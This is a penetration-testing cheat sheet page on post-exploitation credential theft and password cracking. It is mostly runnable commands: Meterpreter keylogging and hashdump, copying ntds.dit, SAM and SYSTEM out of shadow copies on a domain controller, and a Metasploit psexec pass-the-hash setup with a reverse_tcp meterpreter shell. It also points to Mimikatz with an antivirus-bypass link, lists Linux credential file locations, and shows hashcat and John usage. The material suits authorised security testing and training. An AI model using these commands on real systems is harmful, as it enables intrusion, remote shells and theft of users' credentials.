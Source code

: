 ```yaml
---
title: Obtaining and Cracking Passwords
category: Post-Exploitation
order: 6
---
```


> **Windows** 

Metasploit Key logger for passwords | keyscan_start, keyscan_stop, keyscan_dump
PwDump | Pwdump drops files to disk and caught by AV <br> http://www.tarasco.org/security/pwdump_7/
Fgdump | fgdump drops files to disk and caught by AV <br> Source available to evade AV <br> http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Other PWDump Versions | http://www.openwall.com/passwords/windows-pwdump

**[Mimikatz](https://github.com/gentilkiwi/mimikatz)**
1. Determine architecture (32 vs 64 bit)
2. Determine if you have admin privs 
3. [AV Bypass](http://www.blackhillsinfosec.com/?p=5555)

References:
* [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/Mimikatz/)
* [Golden Ticket] (https://www.christophertruncer.com/golden-ticket-generation/) 
* [Mimikatz to dump passwords](http://blog.opensecurityresearch.com/2012/06/using-mimikatz-to-dump-passwords.html) 
* [Domain Passwords](http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html)

**Metasploit hashdump**

{% highlight bash %}
meterpreter >hashdump (from memory)
meterpreter > run hashdump (hash and syskey from registry)
{% endhighlight %}

**Volume Shadow Copy Service (domain controller)**

{% highlight bash %}
cscript vssown.vbs /status or /start or /create /c
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit 
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak

Analyze with ntds Dump Hash
{% endhighlight %}

Required Tools:
* [vssown vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs)  
* [vssown py](https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py)
* [ntds Dump Hash](http://csabarta.com/downloads/ntds_dump_hash.zip)

>**Pass the Hash**

***May require RID 500 account due to patch***
 
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec| <code> use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> 	set SMBUser [admin_name]  <br> set SMBPass [admin_hash] <br> exploit </code> 
Nmap nse smb | tbd

> **Linux**

Users and Passwords:

* /etc/passwd and /etc/shadow

Network or WiFi Passwords:

* /etc/NetworkManager/system-connections

Gnome Keyring:

* ~/.gnome/keyrings

> **Password Cracking Tools**

**GPU**

* MD5 Cracker: http://bvernoux.free.fr/md5/index.php
* oclHashcat  and Hashcat (same project)
* CUDA-multiforcer
* aircrack-ng-CUDA
* pyrit (WPA and WPA w/ CoWPAtty)

**CPU**

* John
* Cain (note: wordlist is located at C:\Program file\Cain\Wordlist\Wordlist.txt)


> **John the Ripper**

View Cracked Passwords | <code> ./john --show [password file] </code>
Pause a session | CTRL-C
Kill a session | <code> CTRL-C twice quickly </code>
Restore a session | <code> ./john --restore </code>
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | <code> ./unshadow passwd_copy shadow_copy > combined.txt </code>
Password length Customization | <code> MinLen and MaxLen <code>
Rule Set | [Korelogic](http://contest-2010.korelogic.com/rules.html)

***Useful Links***

* [Getting Started](https://www.tunnelsup.com/getting-started-cracking-password-hashes/)

> **Hashcat**

Usage:
{% highlight bash %}

hashcat -a 0 -m 1000 [NTLMHASHES] wordlists/rockyou.txt -r hob064.rule -o cracked.txt

#Finding kind of hash
hashcat --help | grep NTLM
{% endhighlight %}

Rule Sets:

* [hob0Rules](https://github.com/praetorian-inc/Hob0Rules)

Useful Links:

* [SANS - Breaking Various Hashes](https://pen-testing.sans.org/blog/2017/10/04/how-to-guide-cracking-into-piles-of-files)

>**Cain**

Word List location | C:\Program file\Cain\Wordlist\Wordlist.txt
Password Dictionary restarts at last point | Right-Click the dictionary-> select Reset initial file position

> **Password Lists**

Example Hashes | https://hashcat.net/wiki/doku.php?id=example_hashes
Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online
Crackstation | https://crackstation.net/
Hashes.org | https://hashes.org/search.php
Practice Hashes | http://contest-2012.korelogic.com/


> **CISCO Group Password**

From Kali:<br>
<code>cisco-decrypt (GroupPassword)</code>


> **Mimikatz from Memory Image**

<code> vol.py -f system_image.vmem --profile=Win7SP1x64 mimikatz </code>


> **Rainbow Tables**

* http://project-rainbowcrack.com
* http://souceforce.net/projects/ophcrack
* http://lasecwww.epfl.ch/~oechslin/projects/ophcrack



